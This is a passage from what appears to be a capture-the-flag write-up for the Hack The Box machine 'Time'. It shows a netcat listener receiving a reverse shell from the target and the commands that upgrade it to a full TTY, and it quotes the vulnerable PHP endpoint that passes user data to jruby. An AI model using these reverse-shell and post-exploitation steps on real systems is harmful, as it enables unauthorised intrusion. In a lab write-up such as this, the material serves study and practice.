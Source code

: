 ```text
zweilos@kali:~/htb/time$ nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.10.214] 36644
bash: cannot set terminal process group (894): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ which python3
which python3
/usr/bin/python3
pericles@time:/var/www/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
pericles@time:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 8081
zweilos@kali:~/htb/time$ stty size
27 104
zweilos@kali:~/htb/time$ stty raw -echo
nc -lvnp 8081aa:~/htb/time$ 

pericles@time:/var/www/html$ stty rows 27 columns 104
pericles@time:/var/www/html$ export TERM=xterm-256color
```

After changing the code in my test.sql file and sending it again, I recieved a reverse shell from the machine. I quickly upgraded to a full TTY and began enumeration.

```text
<?php
if(isset($_POST['data'])){
        if(isset($_POST['mode']) && $_POST['mode'] === "2"){
                $filename = tempnam("/dev/shm", "payload");
                $myfile = fopen($filename, "w") or die("Unable to open file!");
                $txt = $_POST['data'];
                fwrite($myfile, $txt);
                fclose($myfile);
                exec("/usr/bin/jruby /opt/json_project/parse.rb $filename 2>&1", $cmdout, $ret);
                unlink($filename);
                if($ret === 0){
                        $output = '<pre>Validation successful!</pre>';
                }
                else{
                        $output = '<pre>Validation failed: ' . $cmdout[1] . '</pre>';
                }
        }
        else{
                $json_ugly = $_POST['data'];
                $json_pretty = json_encode(json_decode($json_ugly), JSON_PRETTY_PRINT);
                $output = '<pre>'.$json_pretty.'</pre>';
        }

}
?>
```
